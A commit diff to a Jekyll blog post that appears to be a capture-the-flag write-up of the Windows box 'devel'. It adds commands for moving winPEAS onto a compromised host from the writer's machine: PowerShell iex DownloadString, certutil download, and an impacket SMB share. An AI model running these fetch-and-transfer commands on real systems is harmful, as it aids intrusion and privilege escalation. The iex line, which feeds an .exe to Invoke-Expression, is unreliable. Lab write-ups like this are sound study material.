

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-21-devel.md, in a window 1280 px wide and 1400 px high, scrolled down 2926 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-21-devel.md
+++ b/_posts/2020-07-21-devel.md
@@ -147,6 +147,53 @@ iis apppool\web
 
 I'm not "nt authority\system" (root on windows), I have the same rights as the web server, let's escalate !
 
+Let's do some Windows reconnaissance, for that I used something called "winPEAS" [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). So let's upload it to the box :
+
+I'll show different method to upload a file :
+
+Start a HTTP server with python :
+
+```bash
+python -m SimpleHTTPServer
+```
+
+Then download the file usng powershell :
+
+```bash
+powershell iex (New-Object Net.WebClient).DownloadString("http://10.10.14.4:8000/winPEASany.exe")
+```
+
+Or with certutil.exe
+
+```bash
+certutil.exe -urlcache -split -f http://10.10.14.4:8000/winPEASany.exe
+```
+
+You can do it with smbserver from impacket :
+
+```bash
+sudo smbserver.py liodeus ./
+[sudo] password for liodeus:
+Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
+
+[*] Config file parsed
+[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
+[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
+[*] Config file parsed
+[*] Config file parsed
+[*] Config file parsed
+```
+
+Then copy the file that you need :
+
+```python
+c:\Windows\Temp>copy \\10.10.14.4\liodeus\winPEASany.exe .
+copy \\10.10.14.4\liodeus\winPEASany.exe .
+        1 file(s) copied.
+```
+
+
+
 ## Flags
 
 ------
````
